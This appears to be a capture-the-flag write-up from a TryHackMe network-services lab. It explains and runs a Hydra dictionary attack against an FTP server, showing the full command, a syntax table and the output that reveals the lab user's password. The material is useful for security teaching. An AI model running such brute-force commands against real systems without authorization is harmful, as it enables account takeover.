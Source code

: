 So, from our enumeration stage, we know:

- There is an FTP server running on this machine
- We have a possible username

Using this information, let's try and bruteforce the password of the FTP Server.

**Hydra**

Hydra is a very fast online password cracking tool, which can perform rapid dictionary attacks against more than 50 Protocols, including Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB, several databases and much more. Hydra comes by default on both Parrot and Kali, however if you need it, you can find the GitHub here.

The syntax for the command we're going to use to find the passwords is this:
"`hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp`"

Let's break it down:

| SECTION                 | FUNCTION                                                                             |
| ----------------------- | ------------------------------------------------------------------------------------ |
| hydra                   | Runs the hydra tool                                                                  |
| -t 4                    | Number of parallel connections per target                                            |
| -l [user]               | Points to the user who's account you're trying to compromise                         |
| -P [path to dictionary] | Points to the file containing the list of possible passwords                         |
| -vV                     | Sets verbose mode to very verbose, shows the login+pass combination for each attempt |
| [machine IP]            | The IP address of the target machine                                                 |
| ftp / protocol          | Sets the protocol                                                                    |

Let's crack some passwords!

1. What is the password for the user "mike"?

```
bibo318@parrot:~/CTFs/tryhackme/Network Services$ hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt 10.10.153.14 ftp
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-25 22:13:09
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.153.14:21/
[21][ftp] host: 10.10.153.14   login: mike   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-25 22:13:17
```

`password`

2. Bingo! Now, let's connect to the FTP server as this user using "ftp [IP]" and entering the credentials when prompted
